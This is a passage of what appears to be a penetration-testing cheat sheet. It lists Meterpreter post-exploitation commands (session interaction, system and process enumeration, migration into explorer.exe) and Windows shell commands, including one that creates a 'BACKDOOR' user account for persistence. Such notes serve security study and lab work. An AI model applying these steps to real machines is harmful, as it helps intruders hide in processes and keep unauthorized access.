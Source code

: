     * interact session
    ```
    sessions -i SESSION_NUM
    ```
    * gathering
        * systeminfo 
        ```
        sysinfo
        ```
        * usename
        ```
        getuid
        ```
        * process
        ```
        ps
        ```
        * search a specified process
        ```
        ps -S icecast
        ```
        * navegate dir
        ```
        cd c:\\
        ```
        * show current dir
        ```
        pwd
        ```
        * dir listing
        ```
        ls
        ```
        * shell
        ```
        shell
        ```
    * migrate 
        * search process
        ```
        ps -S explorer.exe
        ```
        * migrate command
        ```
        migrate -N explorer.exe
        ```
### shell
* windows
    * ipaddress info
    ```
    ipconfig
    ```
    * look at the users on the system
    ```
    net user
    ```
    * create backdoor account
    ```
    net user BACKDOOR Password1 /add
    ```
    * user info
    ```
    net user BACKDOOR